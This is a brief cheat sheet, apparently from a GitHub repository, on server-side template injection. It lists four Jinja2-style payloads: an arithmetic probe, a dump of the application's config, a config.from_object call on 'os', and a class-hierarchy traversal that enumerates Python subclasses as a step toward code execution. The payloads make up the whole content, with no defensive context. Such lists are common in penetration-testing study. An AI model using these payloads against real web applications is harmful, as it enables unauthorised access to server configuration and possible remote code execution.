 # SSTI - Server Side Template Injection

![image](https://github.com/zer00d4y/cheatsheets/assets/128820441/c2588b94-23b3-427f-8117-73e98f478881)


`{{7*7}}`

`{{config.items()}}`

`{{config.from_object(‘os’)}}`

`{{‘’.__class__.__mro__[1].__subclasses__()[284:]}}`

